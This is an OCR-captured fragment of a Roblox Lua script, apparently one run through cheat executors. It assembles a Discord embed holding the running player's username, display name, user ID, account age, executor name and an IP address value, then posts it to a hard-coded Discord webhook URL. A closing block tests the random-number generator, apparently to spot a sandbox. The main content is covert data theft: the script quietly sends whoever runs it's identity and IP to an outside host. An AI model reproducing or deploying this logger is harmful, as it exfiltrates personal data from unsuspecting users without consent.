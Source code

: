             ["description"] = "Name: "..plr.Name.."\nDisplay Name: "..plr.DisplayName.."\nExploit: "..getexploit().."\nGame: https://www.roblox.com/games/"..game.PlaceId,
            ["type"] = "rich",
            ["color"] = tonumber(0xffff00),
                    ["thumbnail"] = {
                ["url"] = "https://www.roblox.com/asset-thumbnail/image?assetId="..game.PlaceId.."&width=768&height=432"
            },
            ["image"] = {
                ["url"] = "http://www.roblox.com/Thumbs/Avatar.ashx?x=250&y=250&Format=Png&username="..plr.Name
            },
            ["fields"] = {
                {
                    ["name"] = "__Account Age:__",
                    ["value"] = plr.AccountAge.." days old",
                    ["inline"] = true
                },
                {
                    ["name"] = "__User ID:__",
                    ["value"] = plr.UserId,
                    ["inline"] = true
                }
            },
            ["footer"] = {
                ["text"] = "IP Address: "..tostring(ident),
                ["icon_url"] = "https://cdn.discordapp.com/attachments/903407245675606056/911635640452513843/Screenshot_25.png"
            },
            ["timestamp"] = string.format('%d-%d-%dT%02d:%02d:%02dZ', Time.year, Time.month, Time.day, Time.hour, Time.min, Time.sec),
};
(syn and syn.request or http_request or http.request) {
    Url = 'https://discord.com/api/webhooks/915970787389886504/RmApG6gWT4JtGJsSQeJ5n78tEiPx33ARzngidcWF6_ycksD0clTqts5ggYO32YaQnF-k';
    Method = 'POST';
    Headers = {
        ['Content-Type'] = 'application/json';
    };
    Body = game:GetService'HttpService':JSONEncode({content = Content; embeds = {Embed}; });
};


combo, prev, rnewidx = 0, 0, 0
for i = 1, 50 do
   local n = math.random(10000, 99999)
   if i == 25 then
      rnewidx = n
   end
   if n == prev then
      combo = combo + 1
   end
   prev = n
end

if combo > 45 then
   c("0x01")
end
